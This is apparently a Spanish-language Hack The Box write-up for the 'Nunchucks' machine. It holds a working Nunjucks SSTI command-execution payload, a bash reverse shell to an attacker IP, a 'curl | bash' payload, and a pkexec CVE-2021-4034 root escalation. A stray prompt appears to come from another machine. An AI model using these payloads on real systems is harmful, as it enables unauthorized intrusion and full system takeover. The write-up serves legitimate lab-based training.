 ```yaml
---
layout: single
title: Nunchucks - Hack The Box
excerpt: "Nunchucks is a easy machine that explores a NodeJS-based Server Side Template Injection (SSTI) leading to an AppArmor bug which disregards the binary&amp;#039;s AppArmor profile while executing scripts that include the shebang of the profiled application.  " 
date: 2024-04-04
classes: wide
header:
  teaser: /assets/images/htb-nunchucks/nunchucks.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:  
  - Pkexec
  - SSTI
  - Nunjucks
---
```


![](/assets/images/htb-nunchucks/nunchucks.png)

Nunchucks is a easy machine that explores a NodeJS-based Server Side Template Injection (SSTI) leading to an AppArmor bug which disregards the binary&amp;#039;s AppArmor profile while executing scripts that include the shebang of the profiled application. 

## Portscan

```
# Nmap 7.94SVN scan initiated Fri Feb 16 16:03:22 2024 as: nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -oG allPorts 10.10.11.122
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.11.122 ()	Status: Up
Host: 10.10.11.122 ()	Ports: 22/open/tcp//ssh///, 80/open/tcp//http///, 443/open/tcp//https///	Ignored State: closed (65532)
# Nmap done at Fri Feb 16 16:03:34 2024 -- 1 IP address (1 host up) scanned in 12.94 seconds

```
Y con esto analizamos los puertos abiertos:
```
# Nmap 7.94SVN scan initiated Fri Feb 16 16:04:20 2024 as: nmap -sCV -p22,80,443 -oN targeted 10.10.11.122
Nmap scan report for 10.10.11.122
Host is up (0.049s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6c:14:6d:bb:74:59:c3:78:2e:48:f5:11:d8:5b:47:21 (RSA)
|   256 a2:f4:2c:42:74:65:a3:7c:26:dd:49:72:23:82:72:71 (ECDSA)
|_  256 e1:8d:44:e7:21:6d:7c:13:2f:ea:3b:83:58:aa:02:b3 (ED25519)
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to https://nunchucks.htb/
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)
|_ssl-date: TLS randomness does not represent time
| tls-nextprotoneg: 
|_  http/1.1
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Nunchucks - Landing Page
| ssl-cert: Subject: commonName=nunchucks.htb/organizationName=Nunchucks-Certificates/stateOrProvinceName=Dorset/countryName=UK
| Subject Alternative Name: DNS:localhost, DNS:nunchucks.htb
| Not valid before: 2021-08-30T15:42:24
|_Not valid after:  2031-08-28T15:42:24
| tls-alpn: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Feb 16 16:04:39 2024 -- 1 IP address (1 host up) scanned in 18.62 seconds

```
## Puerto 80

Obtenemos del escaneo de puertos la url de http://nunchucks.htb, asi que vamos a adentrarnos a ver que tiene.

![](/assets/images/htb-nunchucks/pagina1.png)

Analizamos la página y vemos que en esta primera página no se puede hacer nada asi que vamos a buscar subdominios existentes a ver que podemos encontrar:

```
Ricart0@kali:/home/kali/HTB/Nunchucks/nmap -> gobuster vhost --append-domain -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u https://nunchucks.htb -t 200 -k
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             https://nunchucks.htb
[+] Method:          GET
[+] Threads:         200
[+] Wordlist:        /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: store.nunchucks.htb Status: 200 [Size: 4029]
```
Añadimos el dominio a /etc/hosts, y vamos a buscar a ver que encontramos en la página.

## Página web


![](/assets/images/htb-nunchucks/pagina2.png)

Vemos que en esta página se pueden introducir datos y asi buscar alguna debilidad, vamos a introducir {{7*7}}@test.tets a ver si se podría hacer un SSTI. Vemos que nos devuelve 49@test.test y por tanto existe una debilidad SSTI.
Ahora con el burpsuite (intermediario), vamos a jugar a ver si podemos hacer algo. 

```
"email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')\")()}}@ola.ola"
```
Vemos que si que nos devuelve el /etc/passwd de la máquina víctima, por tanto podemos ejecutar comandos. 
## Intrusión
Ahora podemos crear un index.html para poder hacer un curl:
```
#!/bin/bash

bash -i >& /dev/tcp/10.10.16.5/443 0>&1

```
Ahora lo compartimos con un servidoe en python3 (python3 -m http.server 80), y nos ponemos en escucha por el puerto 443 (nc -nvlp 443). Y ahora si mandamos un curl que interpretamos con bash.

```
"email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('curl 10.10.16.14 | bash')\")()}}@ola.ola"
```
Ahora ya estaremos dentro de la máquina víctima. La flag de usuario ya podemos conseguirla. Para que la consola sea totalmente interactiva podemos hacer lo siguiente:
```
script /dev/null -c bash
(Hacemos control+c)
stty raw -echo; fg  
y hacemos reset xterm
```

## Escalada de privilegios

Ahora toca escalar privilegios para obtener la flag de root. Vemos que pkexec se ecuentra otra vez disponible como en muchas de las máquinas, muy vulnerable:
```
strapi@horizontall:~/myapi/config/environments/development$ which pkexec
which pkexec
/usr/bin/pkexec
```
Desde nuestra terminal, vamos a clonarnos este repositorio https://github.com/berdav/CVE-2021-4034 que nos va a escalar el privilegio mediante pkexec, la comprimimos (zip -r comprimido.zip CVE-2021-4034). Desde el equipo de la víctima, obtenemos el zip de nuestro equipo(wget http://10.10.16.6/comprimido.zip). Lo descomprimimos, hacemos make, y lo ejecutamos:
```
david@nunchucks:/tmp/CVE-2021-4034$ ./cve-2021-4034
# cd /root/
# cat root.txt
a5bdba1479e8a34281f6f1d73dcfd804

```
